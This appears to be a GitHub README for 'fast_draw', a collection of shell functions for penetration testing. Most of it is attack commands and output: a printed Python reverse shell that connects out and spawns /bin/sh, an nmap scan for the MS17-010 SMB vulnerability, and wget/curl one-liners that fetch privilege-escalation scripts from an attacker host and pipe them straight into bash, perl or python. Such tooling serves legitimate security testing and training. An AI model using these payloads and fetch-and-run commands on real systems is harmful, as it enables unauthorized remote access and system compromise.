 # fast_draw

Shellscripts functions to automate stuff in hacking


## How use: 
### Generating payloads: 
#### Listing
```
$ genweapon help
[!] Help menu:
bash list -> List available payloads
bash generate PAYLOAD_PATH LHOST LPORT OUTPUT
	 Example: bash generate payloads/python/reverse_tcp 127.0.0.1 443 /tmp/shell.p
```

#### Creating 
Syntax: 

```
$ genweapon generate payloads/path_to_/payloadfile LHOST LPORT OUTPUT_FILE 
```

Example: 
```
$ genweapon generate payloads/python/reverse_tcp 127.0.0.1 443 /tmp/pyshell.py 
[-] Generating the payload
[-] Payload saved at /tmp/pyshell.py
operador@remember:~/scripts/shellscript/fast_draw$ cat /tmp/pyshell.py 
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("127.0.0.1",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

### Automating nmap nse scans: 
Syntax: 

```
nse smb target ports 
```

Example: 

```
$ nse ms17-010 192.168.10.10 139,445
sudo nmap -p 139,445 --script=smb-vuln-ms17-010.nse -oN nmap_nse_smb-vuln-ms17-010.nse 192.168.10.10

```

### Generate commands to help at Post Exploitation/Priv Escalation
#### Linux: 
Syntax:

```
weblinux LHOST <wget|curl> 
```

Example:

```
$ weblinux 192.168.10.10 wget
wget -q http://192.168.10.10/LinEnum.sh -O - | bash
wget -q http://192.168.10.10/linpeas.sh -O - | bash
wget -q http://192.168.10.10/linux-exploit-suggester-2.pl -O - | perl
wget -q http://192.168.10.10/linux-exploit-suggester.sh -O - | bash
wget -q  http://192.168.10.10/linuxprivchecker.py -O - | python
$ weblinux 192.168.10.10 curl
curl -s http://192.168.10.10/LinEnum.sh | bash
curl -s http://192.168.10.10/linpeas.sh | bash
curl -s http://192.168.10.10/linux-exploit-suggester-2.pl | perl
curl -s http://192.168.10.10/linux-exploit-suggester.sh | bash
curl  -s http://192.168.10.10/linuxprivchecker.py | python
```
